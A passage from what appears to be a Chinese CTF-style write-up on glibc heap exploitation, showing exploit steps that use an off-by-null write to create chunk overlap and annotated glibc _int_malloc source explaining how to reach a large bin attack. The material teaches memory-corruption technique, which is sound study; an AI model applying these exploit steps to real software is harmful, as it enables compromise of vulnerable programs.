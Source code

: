 ![image-20211226162339888](/assets/wgpsec/images/heap/image-20211226162339888.png)

​    然后就可以进行chunk overlap了, 先将0x20的chunk释放掉，然后释放chunk2，这时触发unlink。

 ```python
 add(0x18)  #1
 add(0x4d8) #7 
 
 free(1)
 free(2)    #overlap
 ```

 ![image-20211226162411250](/assets/wgpsec/images/heap/image-20211226162411250.png)

​    接下来用同样的方法对第二个大小为0x510的chunk进行overlapping。

 ```python
 free(4)
 edit(3,'a'*0x18) #off by null
 add(0x18)        #4
 add(0x4d8)       #8 
 free(4)
 free(5)          #overlap
 add(0x40)        #4 
 edit(8, 'aaaa')
 ```



#### 2.放入large bin

​    那么如何将unsorted bin中的chunk放入large bin呢？下面是glibc判断

 ```c
 while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))//从第一个unsortedbin的bk开始遍历
 {
     bck = victim->bk;
     size = chunksize (victim);
     if (in_smallbin_range (nb) &&//<_int_malloc+627>
         bck == unsorted_chunks (av) &&
         victim == av->last_remainder &&
         (unsigned long) (size) > (unsigned long) (nb + MINSIZE))    //unsorted_bin的最后一个，并且该bin中的最后一个chunk的size大于我们申请的大小
     {remainder_size = size - nb;
      remainder = chunk_at_offset (victim, nb);...}//将选中的chunk剥离出来，恢复unsortedbin
     if (__glibc_unlikely (bck->fd != victim))
             malloc_printerr ("malloc(): corrupted unsorted chunks 3");
      unsorted_chunks (av)->bk = bck;    //largebin attack
     //注意这个地方，将unsortedbin的bk设置为victim->bk，如果我设置好了这个bk并且能绕过上面的检查,下次分配就能将target chunk分配出来
     if (size == nb)//size相同的情况同样正常分配
     if (in_smallbin_range (size))//放入smallbin
      {
         victim_index = smallbin_index (size);
         bck = bin_at (av, victim_index);
         fwd = bck->fd;
      }
      else//放入large bin
      {
          while ((unsigned long) size < chunksize_nomask (fwd))
          {
             fwd = fwd->fd_nextsize;//fd_nextsize指向比当前chunk小的下一个chunk
             assert (chunk_main_arena (fwd));
           }
           if ((unsigned long) size
                           == (unsigned long) chunksize_nomask (fwd))
                         /* Always insert in the second position.  */
              fwd = fwd->fd;
 ```